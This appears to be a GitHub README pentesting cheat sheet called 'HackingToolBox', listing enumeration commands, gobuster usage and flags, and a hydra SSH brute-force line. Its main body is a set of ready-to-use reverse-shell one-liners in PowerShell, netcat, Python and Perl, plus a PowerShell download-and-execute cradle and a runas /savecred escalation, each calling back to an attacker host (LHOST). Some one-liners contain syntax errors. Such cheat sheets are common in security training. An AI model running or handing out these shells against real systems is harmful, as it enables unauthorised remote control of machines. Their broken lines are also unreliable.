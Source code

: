 # HackingToolBox
![image](https://user-images.githubusercontent.com/62963762/78167617-0dbdc380-744f-11ea-926d-915dc78722a1.png)  
**RHOST** : Ip address of the target machine  
**RPORT** : Listening port of the target machine  
**LHOST** : Ip address of the auditor computer  
**LPORT** : Listening port of the auditor computer  


## Énumération
### Windows 
### Linux 
sudo -l
kernel

We can then list the SUID/SGID binaries available to us by running LinEnum.sh or the following bash command:

```find / -perm -g=s -o -perm -u=s -type f 2>/dev/null    # SGID or SUID```
### Nmap
### FTP (File Transfer Protocol)
### SMB
### Web
**gobuster :** tool to bruteforce directory and file

  
`dir` mode :
  
```bash
gobuster dir -u http://RHOST -t 50 -w wordlist.txt -x .php,.html,.htm
```

```bash
Flags:
  -f, --addslash                      Append / to each request
  -c, --cookies string                Cookies to use for the requests
  -e, --expanded                      Expanded mode, print full URLs
  -x, --extensions string             File extension(s) to search for
  -r, --followredirect                Follow redirects
  -H, --headers stringArray           Specify HTTP headers, -H 'Header1: val1' -H 'Header2: val2'
  -h, --help                          help for dir
  -l, --includelength                 Include the length of the body in the output
  -k, --insecuressl                   Skip SSL certificate verification
  -n, --nostatus                      Don't print status codes
  -P, --password string               Password for Basic Auth
  -p, --proxy string                  Proxy to use for requests [http(s)://host:port]
  -s, --statuscodes string            Positive status codes (will be overwritten with statuscodesblacklist if set) (default "200,204,301,302,307,401,403")
  -b, --statuscodesblacklist string   Negative status codes (will override statuscodes if set)
      --timeout duration              HTTP Timeout (default 10s)
  -u, --url string                    The target URL
  -a, --useragent string              Set the User-Agent string (default "gobuster/3.0.1")
  -U, --username string               Username for Basic Auth
      --wildcard                      Force continued operation when wildcard found

Global Flags:
  -z, --noprogress        Don't display progress
  -o, --output string     Output file to write results to (defaults to stdout)
  -q, --quiet             Don't print the banner and other noise
  -t, --threads int       Number of concurrent threads (default 10)
      --delay duration    Time each thread waits between requests (e.g. 1500ms)
  -v, --verbose           Verbose output (errors)
  -w, --wordlist string   Path to the wordlist
```

`dns` mode :
```bash
gobuster dns -d http://RHOST -t 50 -w wordlist.txt
```
```bash
Flags:
  -d, --domain string      The target domain
  -h, --help               help for dns
  -r, --resolver string    Use custom DNS server (format server.com or server.com:port)
  -c, --showcname          Show CNAME records (cannot be used with '-i' option)
  -i, --showips            Show IP addresses
      --timeout duration   DNS resolver timeout (default 1s)
      --wildcard           Force continued operation when wildcard found

Global Flags:
  -z, --noprogress        Don't display progress
  -o, --output string     Output file to write results to (defaults to stdout)
  -q, --quiet             Don't print the banner and other noise
  -t, --threads int       Number of concurrent threads (default 10)
      --delay duration    Time each thread waits between requests (e.g. 1500ms)
  -v, --verbose           Verbose output (errors)
  -w, --wordlist string   Path to the wordlist 
```

## One-liner reverse shell
command to execute on the listener side to connect to the remote machine :
```bash
nc -lvp LPORT
```

### powershell
In http://LHOST/shell.ps1 :  
```shell
$client = New-Object System.Net.Sockets.TCPClient('LHOST',LPORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
In target machine :  
```START /B "" powershell -c IEX (New-ObjectNet.Webclient).downloadstring('http://LHOST/shell.ps1') ```

A useful command to run when beginning enumeration, which displays stored user names and passwords or credentials :  
```cmdkey /list```
Exploitation to have reverse shell :  
``` runas /user:[user]\Administrator /savecred "powershell -c IEX (New-ObjectNet.Webclient).downloadstring('http://LHOST/shell.ps1')"```  
Exploitation to run command :  
```runas /savecred /user:[user]\Administrator "cmd.exe /C [CMD]"```

### netcat
Linux : 
```bash
nc LHOST LPORT -e /bin/bash
```
Windows :
```bat
nc.exe LHOST LPORT -e cmd.exe
```
### python
Linux : 
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)s.connect(("LHOST",LPORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Windows : 
```bat
C:\Python26\python.exe -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("LHOST",LPORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['C:\\WINDOWS\\system32\\cmd.exe','-i']);"
```
### perl
```perl
perl -e 'use Socket;$i="LHOST";$p=LPORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")) if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
### bash
### php
### ruby
### telnet
### socat
### java

## Exploitation
### msfvenom
### metasploit
### searchsploit
### evil-winrm
### mimikatz


## Bruteforce
### John the ripper
### Hydra
bruteforce ssh login :  
`hydra -L user.txt -P /usr/share/wordlists/rockyou.txt RHOST -t 5 ssh -I`
